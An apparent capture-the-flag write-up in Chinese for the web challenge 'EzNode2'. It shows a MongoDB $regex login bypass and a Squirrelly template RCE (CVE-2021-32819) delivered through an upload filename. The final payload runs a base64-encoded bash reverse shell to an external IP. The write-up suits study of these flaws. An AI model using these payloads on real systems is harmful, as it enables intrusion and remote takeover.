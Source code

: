 # 2022.11

# Web

## ****EzNode2****

提供了源码，源码中有提到是mangodb,而前端给出admin的提示

![Untitled](2022%2011%20a372398f4a1b483c9176b77bc2c7fd4e/Untitled.png)

waf

```jsx
function filter(str) {
    return /gt|lt|lte|gte|eq|ne|where/.test(str)
}
```

waf中为过滤$regex

重言式绕过

{"username":{"$regex":"^admin"},"password":{"$regex":".*"}}

![Untitled](2022%2011%20a372398f4a1b483c9176b77bc2c7fd4e/Untitled%201.png)

![Untitled](2022%2011%20a372398f4a1b483c9176b77bc2c7fd4e/Untitled%202.png)

成功登录admin后，是上传页面

![Untitled](2022%2011%20a372398f4a1b483c9176b77bc2c7fd4e/Untitled%203.png)

上传后的文件会被渲染

![Untitled](2022%2011%20a372398f4a1b483c9176b77bc2c7fd4e/Untitled%204.png)

使用的引擎是squirrelly

[Nodejs Squirrelly 模板引擎 RCE(CVE-2021-32819)漏洞分析](https://www.aisoutu.com/a/543359)

摘要：

![Untitled](2022%2011%20a372398f4a1b483c9176b77bc2c7fd4e/Untitled%205.png)

在dataoutput这里拼接的时候可以进行变量的控制,name是最好控制的

`data.output = '{"id":"3", "filename":"' + [req.files.file.name](http://req.files.file.name/) + '", "filesize":"' + req.files.file.size + '", "mimetype":"' + req.files.file.mimetype + '", "filehash":"' + req.files.file.md5 + '"}'`

就像文章中类似的payload。利用回调函数实现命令执行

有提到env.

```jsx
{
  varName: "it",
  autoTrim: [false, "nl"],
  autoEscape: true,
  defaultFilter: false,
  ...,
  variable: "HelloWorld",
  _locals: { },
  ...
}
```

payload

filename\",\"defaultFilter\":\"e');let require = global.require || global.process.mainModule.constructor._load; require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC80OS4yMzIuMjA2LjM3LzIzNDU2ICAwPiYx|base64 -d|bash');